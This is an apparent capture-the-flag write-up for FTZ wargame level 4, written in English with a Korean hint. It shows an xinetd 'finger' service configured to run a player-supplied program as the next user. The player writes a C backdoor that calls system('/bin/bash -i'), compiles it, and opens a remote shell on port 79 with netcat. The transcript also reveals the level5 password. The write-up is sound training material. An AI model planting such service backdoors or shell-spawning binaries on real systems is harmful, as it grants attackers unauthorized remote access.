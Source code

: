 # Level4

## This level's goal

- xinetd
- Remote backdoor

***
```
[level4@ftz level4]$ cat hint

누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!
```

```
[level4@ftz tmp]$ ls -al /etc/xinetd.d | grep level4
-r--r--r--    1 root     level4        171 Aug 19  2014 backdoor
```

```
[level4@ftz level4]$ cat /etc/xinetd.d/backdoor
service finger
{
        disable = no
        flags           = REUSE
        socket_type     = stream
        wait            = no
        user            = level5
        server          = /home/level4/tmp/backdoor
        log_on_failure  += USERID
}
```

```
[level4@ftz level4]$ cat /etc/services | grep finger
finger          79/tcp
finger          79/udp
cfinger         2003/tcp                        # GNU Finger
```

```
[level4@ftz level4]$ netstat -an | grep :79
tcp        0      0 0.0.0.0:79              0.0.0.0:*               LISTEN
```

```
[level4@ftz level4]$ ls -l /home/level4/tmp/backdoor
ls: /home/level4/tmp/backdoor: No such file or directory
```

There is no backdoor file, so you need to make a backdoor that you can exploit

```
[level4@ftz tmp]$ cat backdoor.c
#include <stdlib.h>

int main()
{
        system("/bin/bash -i");
        return 0;
}
[level4@ftz tmp]$ gcc -o backdoor backdoor.c
[level4@ftz tmp]$ chmod 777 backdoor
```

```
[level4@ftz tmp]$ finger level4@localhost
/bin/bash: line 1: level4
: command not found
id
my-pass
```

This is not working, cuz this level's concept is remote backdoor.

so you need to use nc(netcat) or telnet command in remote

```
┌──(root💀kali)-[~]
└─# nc 192.168.10.240 79
bash: no job control in this shell
stty: standard input: Invalid argument
[level5@ftz /]$ id
uid=3005(level5) gid=3005(level5)
[level5@ftz /]$ my-pass

Level5 Password is "what is your name?".
```
